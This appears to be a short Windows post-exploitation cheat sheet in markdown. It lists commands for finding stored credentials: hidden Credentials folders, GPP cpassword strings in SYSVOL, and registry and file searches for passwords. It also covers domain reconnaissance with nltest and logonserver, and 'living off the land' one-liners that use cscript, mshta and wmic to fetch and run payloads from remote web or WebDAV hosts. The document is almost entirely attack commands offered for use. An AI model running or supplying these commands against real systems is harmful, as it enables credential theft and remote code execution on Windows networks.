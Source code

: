 ```
## Potential Credential Files:

```
dir /a:h C:\Users\username\AppData\Local\Microsoft\Credentials\
dir /a:h C:\Users\username\AppData\Roaming\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Local\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Roaming\Microsoft\Credentials\
```

## Find GPP Passwords in SYSVOL:

```
findstr /S cpassword $env:logonserver\sysvol\*.xml
findstr /S cpassword %logonserver%\sysvol\*.xml (cmd.exe)
```

## Searching the Registry for Passwords:

```
reg query HKLM /f password  /t REG_SZ  /s 
```
## Local Domain Recon:

Shows the domain:

```
echo %USERDOMAIN%
```

Maps AD trust relationships:

```
nltest /domain_trusts 
```

Prints the domain controller name:

```
echo %logonserver% 
```

## Searching the File System for Files of Interest:

```
dir /s *pass* == *cred* == *vnc* == *.config*
```

Search certain file types for a keyword, this can generate a lot of output.

```
findstr /si password *.xml *.ini *.txt
```

# Living off the Land:

## Cscript/Wscript:

```cscript //E:jscript \\webdavserver\folder\payload.txt```

## MSHTA:

```mshta vbscript:Close(Execute("GetObject(""script:http://webserver/payload .sct"")"))```
```mshta \\webdavserver\folder\payload.hta```

## WMIC:

```wmic os get /format:"https://webserver/payload.xsl"```
```